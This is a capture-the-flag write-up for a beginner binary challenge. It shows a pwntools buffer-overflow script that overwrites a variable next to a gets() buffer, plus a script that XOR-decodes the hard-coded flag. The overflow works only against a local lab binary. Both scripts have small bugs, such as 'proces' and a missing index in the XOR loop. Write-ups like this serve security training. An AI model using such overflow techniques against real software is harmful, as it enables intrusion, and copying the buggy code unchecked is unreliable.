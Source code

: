 <img src="https://github.com/raul-dunca/assets/blob/main/.images_CyberStudents-advent-of-ctf2024/day2_description.png">

For this chall I have 2 solutions.
## Solution 1:
Analyzing the file in dogbolt I saw in the main function a buffer overflow because of the `gets` function:

<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_5_info1.png">
 
I think this is also the intended solution by the author. The goal of the challenge is to change the value of `local_12` from 0 to something else. This variable is also stored right after the buffer which is used to get the user input. So, using a buffer overflow I can change the value stored in `local_12`.

Below is the solution script. Because the buffer which reads user input has a size of `8166` I need at leas `8167` bytes in the payload:
```python
from pwn import *

binary='chall'
p=proces(binary)
payload=b"A"*8166 + b"\x01"
p.sendline(payload)

output=p.recvall()
print(output)
```
## Solution 2:
In dogbolt I can also see the win function and what it does exactly:

<img src="https://github.com/raul-dunca/CyberStudents-advent-of-ctf2024/blob/main/.assets/day_5_info2.png">

So, for each byte in that hex strings, it just xor it with `0xaa` to print out the flag. I can reverse the logic of this (`A xor 0xaa = B` and `B xor 0xaa = A`):
```python
encoded_flag=b"\xc9\xd9\xce\xd1\xce\x9e\xd3\xf5\x98\xf5\xe2\x9a\xdd\xf5\xd8\xf5\xdf\x95\xd7\x00"
decoded_flag=[]

for i in range (0,len(encoded_flag)):
    decoded_flag.append((encoded_flag^0xaa))

flag=''.join([chr(x) for x in decoded_flag])
print(flag)
```

`csd{d4y_2_H0w_r_u?}`
